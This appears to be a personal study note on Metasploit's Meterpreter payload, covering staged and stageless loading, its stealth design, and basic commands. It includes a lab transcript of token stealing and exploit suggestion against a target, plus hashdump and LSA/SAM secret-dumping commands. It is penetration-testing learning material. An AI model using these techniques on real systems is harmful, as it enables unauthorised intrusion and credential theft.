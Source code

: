 ```table-of-contents
title: ## Table of Contents
style: nestedList # TOC style (nestedList|nestedOrderedList|inlineFirstLevel)
minLevel: 0 # Include headings from the specified level
maxLevel: 3 # Include headings up to the specified level
includeLinks: true # Make headings clickable
debugInConsole: false # Print debug info in Obsidian console
```

## Summary
The *Meterpreter* payload is a specific type of multi-faceted payload. It utilises DLL injection to ensure a stable, persistent across reboots connection. It has a variety of features built in such as key loggers, hash collection, tapping etc. It runs only in-memory so it is harder to find any forensic traces. We can also load and unload additional scripts and plugins dynamically. It also uses an AES-encrypted link over the socket for secure communication.

## Installation
Meterpreter is a payload that can be used through the [[Metasploit]] framework. Meterpreter comes in both staged (the normal) and stageless forms.
**Staged**:
1. `stage0` is a some shellcode that is executed as part of an exploit payload to open a connection to the attack machine (eg. `reverse_tcp`)
2. `stage1` is then downloaded into memory by stage0. This is where the `metsrv` DLL is read in and using [Reflective DDL Injection] it is read into memory without every being written to disk or registered with the host process. `metsrv` then takes over execution as our meterpreter service we are used too.
3. `stage2` is triggered by `metsrv` and brings in the first extension DLL: `stdapi`
4. `stage3` is the same as stage2, but brings in the final extension DLL: `priv`
Staged means we can hide `stage0` (which is very small `~360b` of shellcode) in many exploits, however the DLLs push up the size to `~1240kb`. This can be a major issue when working in a high latency or low bandwidth network. Additionally thats alot of downloading if you are working across a large network with many shells.

**Stageless**:
As the payload preparation is performed on our machine, the process is slightly different.
1. Metasploit copies the `metsrv` DLL into memory, overwriting the DLL's [DOS header](https://en.wikipedia.org/wiki/DOS_MZ_executable) with some shellcode that:
	1. Does some information gathering with GetPC
	2. Identifies an invokes the `ReflectiveLoader()` in `metsrv` for the Reflective DLL injection
	3. Identifies the pre-loaded extensions and invokes the `DllMain()` in `metsrv` with `DLL_METASPLOIT_ATTACH` which then takes over
	4. After `metsrv` exits, the shellcode also re-invokes `DllMain()` with `DLL_METASPLOIT_DETACH` which exits `metsrv` using the appropriate method.
2. Once the shellcode has been added, metasploit creates an in-memory payload buffer, writing each of the chosen extensions in along with its size.
3. Finally it adds a 32-bit null buffer which is what `metsrv` will look for to end its extension loading
The final payload looks like:
![[Pasted image 20241210132738.png]]
This can then be embedded in an exe file, encoded, and thrown into an exploit.
## Documentation
**Cheatsheet:** [[Using_The_Metasploit_Framework_Module_Cheat_Sheet.pdf]]
**Website:** 

## Meterpreter's Design Goals
### Stealthy
- It resides entirely in memory without anything stored on disk
- No new processes (it injects itself into the compromised process)
- It can migrate from one process to another
- AES encryption for all communications
- Little impact on the victim machine
- Very limited forensic evidence left behind
### Powerful
- Channelised communication between attack and victim machine
- Isolated communication between different channels
- Allows for AES encrypted channels
### Extensible
- Features can be augmented at runtime
- Extensions can be loaded over the network
- Modular structure means new features can be added without rebuilding
## Usage
### Useful Commands
Meterpreter uses a mix of linux & windows syntax command for faster interactions with targets
- *?* : opens the help menu
- *background* / *bg* : backgrounds the current [[Metasploit#Sessions|session]]
- *bgkill* : kill a background script
- *bglist* : list background scripts
- *bgrun* : run a script in the background
- *run* : run a script (not background)
- *channel* : displays channel information
- *close* : close a channel
- *exit* / *quit* : terminate the [[Metasploit#Sessions|session]]
- *guid* : get the GUID for the current session
- *getuid* : gets the current user
- *secure* : (Re)negotiate TLV packet encryption on the session

### Process Migration
In a situation where we don't have permissions, we might be able to migrate to a process with a different user:
```
meterpreter > getuid

[-] 1055: Operation failed: Access is denied


meterpreter > ps

Process List
============

 PID   PPID  Name               Arch  Session  User                          Path
 ---   ----  ----               ----  -------  ----                          ----
 0     0     [System Process]                                                
 4     0     System                                                          
 216   1080  cidaemon.exe                                                    
 272   4     smss.exe                                                        
 292   1080  cidaemon.exe                                                    
<...SNIP...>

 1712  396   alg.exe                                                         
 1836  592   wmiprvse.exe       x86   0        NT AUTHORITY\NETWORK SERVICE  C:\WINDOWS\system32\wbem\wmiprvse.exe
 1920  396   dllhost.exe                                                     
 2232  3552  svchost.exe        x86   0                                      C:\WINDOWS\Temp\rad9E519.tmp\svchost.exe
 2312  592   wmiprvse.exe                                                    
 3552  1460  w3wp.exe           x86   0        NT AUTHORITY\NETWORK SERVICE  c:\windows\system32\inetsrv\w3wp.exe
 3624  592   davcdata.exe       x86   0        NT AUTHORITY\NETWORK SERVICE  C:\WINDOWS\system32\inetsrv\davcdata.exe
 4076  1080  cidaemon.exe                                                    


meterpreter > steal_token 1836

Stolen token with username: NT AUTHORITY\NETWORK SERVICE


meterpreter > getuid

Server username: NT AUTHORITY\NETWORK SERVICE
```

### Using a  meterpreter session in a module
Lets say we need the local exploit suggester module, it can be run by backgrounding the session, finding the module, and configuring its options to run for the session we have established.
```
meterpreter > bg

Background session 1? [y/N]  y


msf6 exploit(windows/iis/iis_webdav_upload_asp) > search local_exploit_suggester

Matching Modules
================

   #  Name                                      Disclosure Date  Rank    Check  Description
   -  ----                                      ---------------  ----    -----  -----------
   0  post/multi/recon/local_exploit_suggester                   normal  No     Multi Recon Local Exploit Suggester


msf6 exploit(windows/iis/iis_webdav_upload_asp) > use 0
msf6 post(multi/recon/local_exploit_suggester) > show options

Module options (post/multi/recon/local_exploit_suggester):

   Name             Current Setting  Required  Description
   ----             ---------------  --------  -----------
   SESSION                           yes       The session to run this module on
   SHOWDESCRIPTION  false            yes       Displays a detailed description for the available exploits


msf6 post(multi/recon/local_exploit_suggester) > set SESSION 1

SESSION => 1


msf6 post(multi/recon/local_exploit_suggester) > run

[*] 10.10.10.15 - Collecting local exploits for x86/windows...
[*] 10.10.10.15 - 34 exploit checks are being tried...
nil versions are discouraged and will be deprecated in Rubygems 4
[+] 10.10.10.15 - exploit/windows/local/ms10_015_kitrap0d: The service is running, but could not be validated.
[+] 10.10.10.15 - exploit/windows/local/ms14_058_track_popup_menu: The target appears to be vulnerable.
[+] 10.10.10.15 - exploit/windows/local/ms14_070_tcpip_ioctl: The target appears to be vulnerable.
[+] 10.10.10.15 - exploit/windows/local/ms15_051_client_copy_image: The target appears to be vulnerable.
[+] 10.10.10.15 - exploit/windows/local/ms16_016_webdav: The service is running, but could not be validated.
[+] 10.10.10.15 - exploit/windows/local/ppr_flatten_rec: The target appears to be vulnerable.
[*] Post module execution completed
msf6 post(multi/recon/local_exploit_suggester) > 
```

### Dumping Hashes
```bash
# Dumps users, IDs, and hashes
hashdump

# Dumps SAM (Security Account Manager) db
lsa_dump_sam

# Dumps LSA (Local Security Authority) secrets
lsa_dump_secrets
```